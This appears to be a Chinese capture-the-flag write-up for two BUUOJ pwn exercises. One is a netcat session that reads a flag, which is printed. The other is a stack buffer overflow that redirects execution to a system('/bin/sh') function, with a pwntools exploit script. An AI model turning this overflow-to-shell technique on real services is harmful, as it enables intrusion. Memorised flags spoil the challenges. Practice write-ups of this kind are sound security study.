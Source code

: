 #### test_your_nc

- 根据题目提示，直接使用nc远程连接到题目地址即可。

  ```bash
  nc node3.buuoj.cn 26446
  ls
  bin
  boot
  dev
  etc
  flag
  home
  lib
  lib32
  lib64
  media
  mnt
  opt
  proc
  pwn
  root
  run
  sbin
  srv
  sys
  tmp
  usr
  var
  cat flag
  flag{2a0ecb02-9cdd-4b66-aea0-a11e215b0d0b}
  ```

#### rip

- shiy

  ![](images/rip2.png)

- 查看文件类型。这是一个64bit 小端序的可执行文件

  ![](images/rip1.png)

- 使用 `IDA Pro` (64位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编。

    ![image-20201130184444473](images/rip.png)

  - 函数窗口处发现了一个fun()函数。调用了system函数，并且参数是`bin/sh`，所以尝试利用缓冲区溢出执行`fun()`函数获得shell权限

    ![](images/rip3.png)

  - 查看fun()函数地址：0x401186

    ![](images/rip4.png)

- 使用gdb进行调试，计算偏移量。

  ![](images/rip6.png)

  ![](images/rip7.png)

  ![](images/rip8.png)

  - 可以看到rbp的值为`nAACAA-A`，是输入字符串偏移的15。

- 构造exp

  ```python
  from pwn import *
  sh=remote('node3.buuoj.cn', 28380)
  payload='A'*15 + p64(0x401186)
  sh.sendline(payload)
  sh.interactive()
  ```

- 运行脚本，即得flag。

  ![](images/rip5.png)